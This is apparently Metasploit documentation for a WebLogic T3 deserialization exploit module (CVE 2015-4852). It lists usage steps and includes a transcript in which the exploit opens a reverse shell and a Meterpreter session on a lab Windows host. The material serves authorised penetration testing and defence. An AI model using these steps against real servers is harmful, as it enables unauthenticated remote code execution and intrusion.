 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

Note that successful exploitation will output the following warning to the admin server console:

```
<Mar 26, 2019 4:13:24 PM CDT> <Error> <RJVM> <BEA-000503> <Incoming message header or abbreviation processing failed
 java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at $Proxy57.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:327)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:39)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:25)
        Truncated. see log file for complete stacktrace
```

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800
 
 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
